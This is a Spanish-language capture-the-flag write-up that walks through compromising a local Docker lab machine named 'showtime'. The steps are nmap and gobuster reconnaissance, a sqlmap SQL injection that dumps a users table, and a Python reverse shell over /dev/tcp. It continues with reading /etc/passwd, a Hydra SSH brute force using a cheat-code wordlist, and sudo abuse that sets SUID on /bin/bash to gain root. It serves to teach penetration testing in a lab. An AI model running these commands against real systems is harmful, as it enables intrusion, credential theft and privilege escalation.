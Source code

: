Desplegamos el contenedor:

```Bash
bash auto_deploy.sh showtime.tar
```

![Pasted image 20250216211018](https://github.com/user-attachments/assets/d5119ff9-f064-4123-9901-ca4ba78d7f84)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250218091735](https://github.com/user-attachments/assets/8cc75d3b-d002-4840-801f-6763c72e5020)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

Nos metemos en la web:

![Pasted image 20250218091931](https://github.com/user-attachments/assets/be5c522a-6286-4032-a207-9176b6fd9765)

Hacemos **SQL Injection**:

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms --dbs --batch
```

![Pasted image 20250218092529](https://github.com/user-attachments/assets/ce56c419-e434-4267-a5b7-e1302e8bddd3)

![Pasted image 20250218092656](https://github.com/user-attachments/assets/739d4a4b-8fba-47d0-ba7e-463ec47cebda)

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users --tables --batch
```

![Pasted image 20250218092752](https://github.com/user-attachments/assets/c583fdb2-ff24-4a0f-83fc-b5610c5218eb)

![Pasted image 20250218092806](https://github.com/user-attachments/assets/62c113a7-ca5a-4107-abe8-1c46f49fe603)

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios --columns --batch
```

![Pasted image 20250218092857](https://github.com/user-attachments/assets/4c4153d4-1f0c-42b9-a7bb-3ca380210b47)

![Pasted image 20250218092911](https://github.com/user-attachments/assets/f436dfb9-1441-4167-b779-376586e96508)

```Bash
sqlmap -u http://172.17.0.2/login_page/index.php --forms -D users -T usuarios -C id,password,username --dump --batch
```

![Pasted image 20250218092943](https://github.com/user-attachments/assets/c4f2fc6d-72ac-4029-b4ea-4f21727acba9)

![Pasted image 20250218092957](https://github.com/user-attachments/assets/9864c095-854a-4393-83b0-a8b78084286f)

![Pasted image 20250218093145](https://github.com/user-attachments/assets/46ef80a3-d868-460d-b9db-2b415d4d7ebc)

![Pasted image 20250218093220](https://github.com/user-attachments/assets/7d3618a5-a687-4bf7-927c-8cb91bc6bfcb)

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 443
```

![Pasted image 20250218094005](https://github.com/user-attachments/assets/227ce5c5-6627-425d-a83d-38b579edf2c9)

```Python
import os
os.system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'")
```

![Pasted image 20250218093902](https://github.com/user-attachments/assets/b34da999-2c6a-4f3d-9c95-6c74301a341b)

Miramos en la shell:

![Pasted image 20250218093941](https://github.com/user-attachments/assets/408f483f-ace6-479d-95cd-c5f588861cca)

```Bash
cat /etc/passwd
```

![Pasted image 20250218094310](https://github.com/user-attachments/assets/343870ad-cba2-4a80-a1a8-582aa17d411d)

```Bash
ls -la /tmp
```

![Pasted image 20250218095339](https://github.com/user-attachments/assets/c4f1ab1c-9140-4b58-84bb-dcc37fdf6e3f)

```Bash
cat /tmp/.hidden_text.txt
```

![Pasted image 20250218095440](https://github.com/user-attachments/assets/8b16fabb-3879-451d-9e80-816b7128a2f5)

```Bash
nano users.txt
```

![Pasted image 20250218095703](https://github.com/user-attachments/assets/57bc72f2-a08a-487b-879f-0b07a9f9c4e3)

```Bash
joe
ubuntu
luciano
```

![Pasted image 20250218095747](https://github.com/user-attachments/assets/db901a35-bcf3-4223-a9f2-50f5a3b7c485)

```Bash
nano password.txt
```

![Pasted image 20250218095502](https://github.com/user-attachments/assets/6073c6ba-b838-4a78-bc42-e0356335cd48)

```Bash
HESOYAM
UZUMYMW
JUMPJET
LXGIWYL
KJKSZPJ
YECGAA
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
AEZAKMI
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
BLUESUEDESHOES
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
CJPHONEHOME
SPEEDFREAK
BUBBLECARS
KANGAROO
CRAZYTOWN
EVERYONEISRICH
EVERYONEISPOOR
CHITTYCHITTYBANGBANG
FLYINGTOSTUNT
FLYINGFISH
MONSTERMASH
BIFBUZZ
WHEELSONLYPLEASE
SLOWMO
SPECIALK
JUMPJET
FLYINGTOSTUNT
FLYINGFISH
ASNAEB
BTCDBCB
KVGYZQK
HELLOLADIES
BGLUAWML
OSRBLHH
LJSPQK
VKYPQCF
SZCMAWO
ROCKETMAN
AIWPRTON
OLDSPEEDDEMON
CPKTNWT
WORSHIPME
NATURALTALENT
BUFFMEUP
BRINGITON
FULLCLIP
CVWKXAM
OUIQDMW
PROFESSIONALSKIT
PROFESSIONALTOOLS
NINJATOWN
STINGLIKEABEE
GHOSTTOWN
SPEEDITUP
SLOWITDOWN
SLOWITDOWNBRO
BAGUVIX
SPEEDFREAK
BUBBLECARS
```

![Pasted image 20250218095551](https://github.com/user-attachments/assets/511f0ca8-4c26-4e5a-a3e0-98ba5acb21d5)

Las haremos minúsculas:

```Bash
cat password.txt | tr '[:upper:]' '[:lower:]' > password-minus.txt
```

![Pasted image 20250218100106](https://github.com/user-attachments/assets/05e62ae4-0312-4a42-8fb1-855831fc6e8f)

```Bash
cat password-minus.txt
```

![Pasted image 20250218100128](https://github.com/user-attachments/assets/6c882f85-03df-4e79-b22e-36bd20ca3ff8)

Fuerza Bruta con **Hydra**:

```Bash
hydra -L users.txt -P password-minus.txt ssh://172.17.0.2
```

![Pasted image 20250218100349](https://github.com/user-attachments/assets/89c6ed84-0e75-49b4-acc5-d33dfa0b9aa4)

Nos conectamos con **SSH**:

```Bash
ssh joe@172.17.0.2
```

![Pasted image 20250218100328](https://github.com/user-attachments/assets/06f530f7-0d4c-4794-a0fc-59950f9a56f3)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250218100409](https://github.com/user-attachments/assets/e99dbc4e-29db-4c44-bd18-be0a57dfa6a4)

```Bash
sudo -u luciano posh
```

![Pasted image 20250218100650](https://github.com/user-attachments/assets/9b2554f4-8850-46a2-8eb0-43d6a22adcf3)

```Bash
/bin/bash -i
```

![Pasted image 20250218100702](https://github.com/user-attachments/assets/ba6102f3-9980-4aeb-9abe-c406f792253b)

```Bash
sudo -l
```

![Pasted image 20250218100724](https://github.com/user-attachments/assets/ee1de993-5e10-4c2d-801c-305f7c7092bd)

```Bash
cd /home/luciano
```

![Pasted image 20250218100802](https://github.com/user-attachments/assets/bf8c16b7-11e0-48cf-beba-754b734f761e)

```Bash
ls -l script.sh
```

![Pasted image 20250218100942](https://github.com/user-attachments/assets/d1e879c3-0a81-4c89-a009-3139190a2e25)

```Bash
cat script.sh
```

![Pasted image 20250218100914](https://github.com/user-attachments/assets/d141db5e-33a7-4282-a8f9-ec1a6c7422f8)

```Bash
echo -e '#!/bin/bash\nchmod u+s /bin/bash' > script.sh
```

![Pasted image 20250218113207](https://github.com/user-attachments/assets/1b1792ca-a542-4121-aac5-507f056bbf26)

```Bash
cat script.sh
```

![Pasted image 20250218105112](https://github.com/user-attachments/assets/9a37ec6c-61db-4fd1-9e19-8777de3c70a4)

```Bash
sudo -u root /bin/bash /home/luciano/script.sh
```

![Pasted image 20250218113436](https://github.com/user-attachments/assets/c0bdbc6b-d129-4e55-ae21-4a92f8d596dc)

```Bash
bash -p
```

![Pasted image 20250218113759](https://github.com/user-attachments/assets/bfae33f7-32b3-4e34-95a1-aa061ba49136)

```Bash
whoami
```

![Pasted image 20250218113858](https://github.com/user-attachments/assets/3ed000b6-1de0-408e-9195-b976716b77d6)
